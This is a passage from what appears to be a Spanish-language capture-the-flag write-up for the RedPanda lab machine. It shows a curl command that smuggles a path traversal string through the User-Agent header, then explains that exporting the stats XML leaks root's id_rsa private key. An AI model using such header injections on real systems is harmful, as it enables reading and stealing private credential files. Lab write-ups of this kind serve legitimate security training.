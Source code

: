 
```bash
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/images.jpeg"
```


Finalmente exportar el xml desde `/stats` para que tome nuestro archivo.


![list](/assets/img/redpanda/Kali-2022-09-01-23-44-05.png){:.lead width="800" height="100" loading="lazy"}


Después de unos segundos si revisamos el xml tendra la id_rsa de root


![list](/assets/img/redpanda/Kali-2022-09-02-12-31-22.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/redpanda/Kali-2022-09-02-02-37-17.png){:.lead width="800" height="100" loading="lazy"}

